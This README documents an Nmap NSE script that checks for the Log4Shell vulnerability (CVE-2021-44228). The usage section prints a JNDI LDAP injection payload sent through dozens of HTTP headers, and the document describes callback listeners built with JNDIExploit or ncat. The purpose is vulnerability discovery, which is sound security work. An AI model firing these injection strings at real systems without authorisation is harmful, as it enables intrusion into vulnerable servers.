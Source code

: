 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.1 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   (!) Sent payload ${jndi:ldap://172.17.42.1:1389/log4shell/127.0.0.1/8080} using HTTP headers:
    |   
    |    - X-Api-Version (200)
    |    - User-Agent (200)
    |    - Cookie (200)
    |    - Referer (200)
    |    - Accept-Language (200)
    |    - Accept-Encoding (200)
    |    - Upgrade-Insecure-Requests (200)
    |    - Accept (200)
    |    - upgrade-insecure-requests (200)
    |    - Origin (200)
    |    - Pragma (200)
    |    - X-Requested-With (200)
    |    - X-CSRF-Token (200)
    |    - Dnt (200)
    |    - Content-Length (200)
    |    - Access-Control-Request-Method (200)
    |    - Access-Control-Request-Headers (200)
    |    - Warning (200)
    |    - Authorization (200)
    |    - TE (200)
    |    - Accept-Charset (200)
    |    - Accept-Datetime (200)
    |    - Date (200)
    |    - Expect (200)
    |    - Forwarded (200)
    |    - From (200)
    |    - Max-Forwards (200)
    |    - Proxy-Authorization (200)
    |    - Range, (200)
    |    - Content-Disposition (200)
    |    - Content-Encoding (200)
    |    - X-Amz-Target (200)
    |    - X-Amz-Date (200)
    |    - Content-Type (200)
    |    - Username (200)
    |    - IP (200)
    |    - IPaddress (200)
    |    - Hostname (200)
    |   
    |_  Inspect the callback server (172.17.42.1:1389) or web-application (127.0.0.1:8080) logs

#### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version,User-Agent,Referer`)


### Method A:

Download JNDIExploit from GitHub (https://github.com/feihong-cs/JNDIExploit)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query (log4shell/{target host}/{target port})

    [+] Received LDAP Query: log4shell/127.0.0.1/8080
    [!] Invalid LDAP Query: log4shell/127.0.0.1/8080

### Method B:

Listen a TCP port with netcat (or ncat):

    ncat -v -k -e /bin/true -l 1389

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.

# Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License
The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)
